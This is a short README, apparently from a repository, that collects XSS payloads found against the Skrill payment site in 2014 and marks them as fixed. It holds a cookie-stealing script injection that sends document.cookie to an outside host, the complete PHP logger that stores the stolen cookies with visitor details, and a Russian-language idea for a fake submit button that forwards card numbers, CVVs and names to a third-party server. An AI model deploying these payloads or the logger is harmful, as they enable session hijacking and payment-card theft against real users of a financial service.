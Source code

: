xss_skrill - fixed
==========

*xss work: 9,10,11,12,13,14,15,16,17.10.2014*

**Demo:** http://atastycookie.me/skrill/


Write you example of XSS and we post it here :)

0) Был предложен вариант перерисовки новой кнопки отправки введенных данных сначала на сторонний сервер(карта, номер, cvv, фио и вся информация), а потом ттолько на SKRILL

1) `"><script>alert()</script>` 

2) `"><script language= "JavaScript">document.location="http://rananyev.ru/xss/xss.php?cookie=" + document.cookie;</script>`

    <?php 
    
    function GetIP() 
    { 
    	if (getenv("HTTP_CLIENT_IP") && strcasecmp(getenv("HTTP_CLIENT_IP"), "unknown")) 
    		$ip = getenv("HTTP_CLIENT_IP"); 
    	else if (getenv("HTTP_X_FORWARDED_FOR") && strcasecmp(getenv("HTTP_X_FORWARDED_FOR"), "unknown")) 
    		$ip = getenv("HTTP_X_FORWARDED_FOR"); 
    	else if (getenv("REMOTE_ADDR") && strcasecmp(getenv("REMOTE_ADDR"), "unknown")) 
    		$ip = getenv("REMOTE_ADDR"); 
    	else if (isset($_SERVER['REMOTE_ADDR']) && $_SERVER['REMOTE_ADDR'] && strcasecmp($_SERVER['REMOTE_ADDR'], "unknown")) 
    		$ip = $_SERVER['REMOTE_ADDR']; 
    	else 
    		$ip = "unknown"; 
    	return($ip); 
    } 
    
    function logData() 
    { 
    	$ipLog="log.txt"; 
    	$cookie = $_SERVER['QUERY_STRING']; 
    	$register_globals = (bool) ini_get('register_gobals'); 
    	if ($register_globals) $ip = getenv('REMOTE_ADDR'); 
    	else $ip = GetIP(); 
    
    	$rem_port = $_SERVER['REMOTE_PORT']; 
    	$user_agent = $_SERVER['HTTP_USER_AGENT']; 
    	$rqst_method = $_SERVER['METHOD']; 
    	$rem_host = $_SERVER['REMOTE_HOST']; 
    	$referer = $_SERVER['HTTP_REFERER']; 
    	$date=date ("l dS of F Y h:i:s A"); 
    	$log=fopen("$ipLog", "a+"); 
    
    	if (preg_match("/\bhtm\b/i", $ipLog) || preg_match("/\bhtml\b/i", $ipLog)) 
    		fputs($log, "IP: $ip | PORT: $rem_port | HOST: $rem_host | Agent: $user_agent | METHOD: $rqst_method | REF: $referer | DATE{ : } $date | COOKIE:  $cookie <br>"); 
    	else 
    		fputs($log, "IP: $ip | PORT: $rem_port | HOST: $rem_host |  Agent: $user_agent | METHOD: $rqst_method | REF: $referer |  DATE: $date | COOKIE:  $cookie \n\n"); 
    	fclose($log); 
    } 
    
    logData(); 
    
    ?>

